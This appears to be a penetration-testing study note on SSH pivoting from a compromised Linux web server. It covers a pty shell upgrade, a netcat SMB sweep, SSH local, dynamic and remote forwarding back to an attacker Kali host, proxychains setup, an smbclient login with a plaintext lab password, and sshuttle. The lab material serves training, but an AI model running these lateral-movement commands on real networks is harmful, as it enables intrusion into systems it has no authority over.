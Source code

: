 # SSH Local Port Forwarding

1. compromise edge linux web server

2. get a tty terminal

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
3. ssh to database machine

4. check ip

```
ip addr
```

5. check routes

```
ip route
```

6. port scan for smb port 445 using bash and netcat on other subnet

```
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

7. ssh Local port forward while on compromised web server so that the compromised web server listens on all interfaces on port `4455` it connects to `10.4.50.215` and it forwards data to reach out to `172.16.50.217` on smb port `445`. NB `-N` means dont ptovide a shell when connecting and `-L` is the Local port forwarding flag.

```
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

# SSH Dynamic Port Forwarding

basically a socks proxy using `-D` for `Dynamic` port forwarding

same setup as Local Port Forwarding but this time `-D` and listening on all interfaces port `9999` on the compromised linux web server.

```
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

must change `/etc/proxychains4.conf` to include

```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5 192.168.250.63 9999
```

then can run smbclient through proxychains

```
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```

# SSH Remote Port Forwarding

connect back to your kali instance via ssh and remote port forward to a specific target.

1. on compromised linux web server

```
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```

same deal `-N` no shell, `-R` Reverse port forwarding localhost on kali machine port `2345` and then forward to postgres port `5432` on `10.4.50.215`

then from kali can

```
kali@kali:~$ psql -h 127.0.0.1 -p 2345 -U postgres
```

# SSH Remote Dynamic Port Forwarding

connect back to your ssh and proxychains through socks proxy.

NB no specifying interface with `-R` just the port `9998`

then change `/etc/proxychains4.conf` to

```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5 127.0.0.1 9998
```

# Using sshuttle

```
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

manages the port forwarding over ssh for you.

